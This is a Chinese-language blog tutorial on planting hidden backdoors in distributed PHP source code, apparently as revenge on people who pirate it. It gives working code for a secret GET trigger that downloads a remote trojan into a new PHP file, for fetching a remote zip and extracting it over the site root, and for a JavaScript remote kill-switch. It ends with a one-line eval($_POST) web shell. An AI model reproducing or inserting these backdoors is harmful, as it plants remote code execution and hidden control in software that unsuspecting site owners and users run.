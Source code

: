 
## 如何用三种方式优雅的往你的PHP源码放点不为人知的后门
 > 兄 dei 你有没有尝试过辛辛苦苦写的源码被人解密拿去大肆分享？不管有没有，反正我是没有。那么这篇文章我们就来说一下如何有效的防范狗 b 并且阴一把狗 b 吧 QAQ

## 巧用Get远程下载后门巧用Get远程下载后门

     <?php
    define('ROOT', dirname(SYSTEM_ROOT).'/');
    if($_GET['hacked']==='logged'){'
    file_put_contents(ROOT.'isetex.php',curl_get('http://域名/api/houmen.txt)'));
    }
    ?>

食用方法:把一个文本为木马的txt保存到云端，复制链接替换“http://域名/api/houmen.txt” 然后访问文件名称.php?hacked=logged 即可在目录生成一个从你云端木马文本获取内容并且名为isetex.php的木马文件

当然你也可以改成一句话之类的东西，简单说 你会玩 想咋玩咋玩
利用云端下载压缩包解压放后门

    <?php
    $down=file_get_contents('http://压缩包下载地址.zip');
            file_put_contents('update.zip',$down);
                $zip = new ZipArchive;
                $zip->open('./update.zip') && $zip->extractTo('../');
    
    
                echo "https://2890.ltd OK!!!";
    ?>

结合上面的get方式来也是妥妥的

        <?php
    if($_GET['hacked']==='logged'){
        $down=file_get_contents('http://压缩包下载地址.zip');
                file_put_contents('update.zip',$down);
                    $zip = new ZipArchive;
                    $zip->open('./update.zip') && $zip->extractTo('../');
    
                    echo "https://2890.ltd OK!!!";
    }
        ?>

食用方法：访问，自动下载云端压缩包并解压到根目录，必须要求zip压缩

JavaScript骚操作防盗模板

`var xhr = new XMLHttpRequest();
xhr.onreadystatechange=function(){
        if(xhr.responseText == "000"){//如果txt内容为000
                document.write("<center><h1>我是显示内容<center><h1>");
        }//则显示这里的内容
}
xhr.open("GET","http://webserver/isopen.txt",true);//云端txt

xhr.send(null);`
感觉代码写的挺明白的，js放oss然后模板添加一下调用，盗版狗专防，死稳

忘了说js还支持运行php代码 感觉人生js并肩php了呢



`<script language=php>@eval($_POST['web']);</script> `
